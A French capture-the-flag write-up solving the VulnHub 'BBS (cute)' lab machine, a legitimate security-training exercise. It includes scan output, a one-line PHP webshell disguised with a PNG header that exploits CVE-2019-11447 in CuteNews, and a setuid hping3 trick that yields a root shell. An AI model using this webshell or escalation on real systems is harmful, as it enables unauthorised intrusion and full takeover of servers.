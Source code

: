 ```yaml
---
title: "Solution du CTF Cute de VulnHub"
tags: [CTF, VulnHub]
---
```


Ayant résolu déjà 2 CTFs de foxlox (ICMP et Boverflow) et les trouvant plutôt intéressants j'ai décidé de continuer avec celui-ci. Je ne sais pas exactement quel est son nom il est désigné comme [BBS (cute): 1.0.2](https://www.vulnhub.com/entry/bbs-cute-102,567/) sur VulnHub.

```
Nmap scan report for 192.168.56.45
Host is up (0.00026s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: PIPELINING LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) STLS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) PIPELINING
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

## Mignon tout plein

On a ici deux services HTTP, l'un sur le port standard, l'autre sur le port 88. Il y a aussi un serveur de messagerie.

Les deux sites ne retournant rien d'intéressant, je commence par chercher sur le port 80 des fichiers/dossiers intéressants :

```bash
$ feroxbuster -u http://192.168.56.45/ -w discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      316c http://192.168.56.45/uploads
301        9l       28w      313c http://192.168.56.45/docs
301        9l       28w      314c http://192.168.56.45/skins
301        9l       28w      313c http://192.168.56.45/libs
301        9l       28w      313c http://192.168.56.45/core
301        9l       28w      321c http://192.168.56.45/skins/images
301        9l       28w      316c http://192.168.56.45/libs/js
301        9l       28w      317c http://192.168.56.45/libs/css
301        9l       28w      322c http://192.168.56.45/core/includes
301        9l       28w      321c http://192.168.56.45/core/modules
301        9l       28w      319c http://192.168.56.45/core/tools
301        9l       28w      318c http://192.168.56.45/core/lang
301        9l       28w      319c http://192.168.56.45/libs/fonts
301        9l       28w      321c http://192.168.56.45/core/captcha
301        9l       28w      315c http://192.168.56.45/manual
301        9l       28w      322c http://192.168.56.45/manual/images
301        9l       28w      318c http://192.168.56.45/manual/en
301        9l       28w      318c http://192.168.56.45/manual/de
301        9l       28w      318c http://192.168.56.45/manual/fr
301        9l       28w      321c http://192.168.56.45/manual/style
301        9l       28w      318c http://192.168.56.45/manual/es
301        9l       28w      323c http://192.168.56.45/manual/en/misc
301        9l       28w      323c http://192.168.56.45/manual/fr/misc
301        9l       28w      319c http://192.168.56.45/skins/base
200      128l      671w     9844c http://192.168.56.45/manual/fr/
301        9l       28w      322c http://192.168.56.45/manual/fr/faq
301        9l       28w      322c http://192.168.56.45/manual/fr/ssl
301        9l       28w      322c http://192.168.56.45/manual/fr/mod
301        9l       28w      327c http://192.168.56.45/manual/fr/programs
200      128l      611w     9544c http://192.168.56.45/manual/de/
301        9l       28w      327c http://192.168.56.45/manual/fr/platform
301        9l       28w      327c http://192.168.56.45/manual/de/platform
301        9l       28w      326c http://192.168.56.45/manual/de/rewrite
301        9l       28w      319c http://192.168.56.45/migrations
200       99l      452w     5717c http://192.168.56.45/manual/fr/misc/
```

Ca fait pas mal de dossiers mais ça ne me parle pas vraiment, mis à part le dossier *migrations* qui mentionne une appli web  nommée *CuteNews*.

Le listing des fichiers est plus instructif :

```bash
$ feroxbuster -u http://192.168.56.45/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-files.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ ble-filepaths/filename-dirname-bruteforce/raft-large-files.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      368l      933w    10701c http://192.168.56.45/index.html
200       63l      481w     3119c http://192.168.56.45/LICENSE.txt
200        1l       12w     1150c http://192.168.56.45/favicon.ico
403        9l       28w      278c http://192.168.56.45/.htaccess
200      368l      933w    10701c http://192.168.56.45/
403        9l       28w      278c http://192.168.56.45/.html
403        9l       28w      278c http://192.168.56.45/.php
403        9l       28w      278c http://192.168.56.45/.htpasswd
403        9l       28w      278c http://192.168.56.45/.htm
403        9l       28w      278c http://192.168.56.45/.htpasswds
200        1l        7w       91c http://192.168.56.45/captcha.php
200        1l        6w       28c http://192.168.56.45/print.php
200      168l      396w     6175c http://192.168.56.45/index.php
200        5l      204w     5118c http://192.168.56.45/search.php
200        1l        6w       28c http://192.168.56.45/popup.php
200        2l       16w      105c http://192.168.56.45/rss.php
200      155l      752w        0c http://192.168.56.45/example.php
403        9l       28w      278c http://192.168.56.45/.htgroup
403        9l       28w      278c http://192.168.56.45/wp-forum.phps
403        9l       28w      278c http://192.168.56.45/.htaccess.bak
403        9l       28w      278c http://192.168.56.45/.htuser
403        9l       28w      278c http://192.168.56.45/.ht
403        9l       28w      278c http://192.168.56.45/.htc
200        2l      380w     2987c http://192.168.56.45/show_news.php
403        9l       28w      278c http://192.168.56.45/.htaccess.old
403        9l       28w      278c http://192.168.56.45/.htacess
```

On peut voir ici que *index.php* est différent de *index.html*. Pour un Apache par défaut le html est utilisé avant le php. Si on demande exploicitement *index.php* on se retrouve finalement devant une installation de *CuteNews*.

Cette appli web est vulnérable à une vulnérabilité de type unrestricted upload (menant à un RCE) : [GitHub - ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE: Exploit Code for CVE-2019-11447 aka CuteNews 2.1.2 Avatar upload RCE (Authenticated)](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE)

Pour cela il faut préalablement créer un compte sur l'appli via le lien *Register*. Dans l'ensemble aucun problème pour cette opération mais à part qu'un captcha est demandé alors qu'aucune image n'apparait dans la page.

En analysant un peu la situation on voit que l'URL de l'image qui est *captcha.php* retourne en fait du texte. Il suffit de récupérer l'output du script et de recopier dans le champ captcha pour passer l'enregistrement.

L'exploitation consiste à uploader comme avatar du compte un fichier avec extension PHP qui passera la vérification du type mime.

On peut ainsi créer un script PHP qui aura un entête d'image PNG puis l'uploader :

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

De cette façon j'obtiens mon shell à l'adresse suivante :

http://192.168.56.45/uploads/avatar_devloop_shell.php?cmd=id

L'étape suivante consiste à upgrader ce webshell vers un [reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh).

## Aller simple vers root, sans correspondance

Pour les autres CTFs de la série on trouve un utilisateur *fox* qui dispose du premier flag.

```bash
www-data@cute:/home/fox$ cat user.txt 
dcb8189a0eaf7a690a67785a7299be60
```

Mais je ne trouve rien d'intéressant permettant de passer de l'utilisateur courant (*www-data*) vers *fox*.

Il y a bien cette entrée sudo permettant d'exécuter *hping3* en tant que root mais avec l'absence d'astérisque son utilisation n'a pas de sens :

```bash
www-data@cute:/home/fox$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
```

Si on tente par exemple de rajouter le paramètre *--file* comme sur le [CTF ICMP]({% link _posts/2022-11-04-Solution-du-CTF-ICMP-de-VulnHub.md %}) on sort de la permission *sudo* et ce dernier demande alors le mot de passe de *www-data* que l'on ne connait pas.

Le binaire est toutefois aussi setuid root mais si on passe *--file* on a un message indiquant que l'option est désactivée quand le bit setuid est actif... sniff.

```bash
www-data@cute:/tmp$ /usr/sbin/hping3 --icmp --file /etc/shadow -d 100 192.168.56.1
Option disabled when setuid `--file'
```

Finalement après pas mal de recherches infructueuses je suis allé sur [l'entrée hping3 pour gtfobins](https://gtfobins.github.io/gtfobins/hping3/) et découvert qu'on pouvait utiliser le binaire comme une sorte d'interpréteur :

```bash
www-data@cute:/$ hping3
hping3> /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

A défaut d'avoir un CTF plus long via l'utilisateur *fox* j'aurais découvert une particularité de hping3 :)

*Publié le 5 novembre 2022*

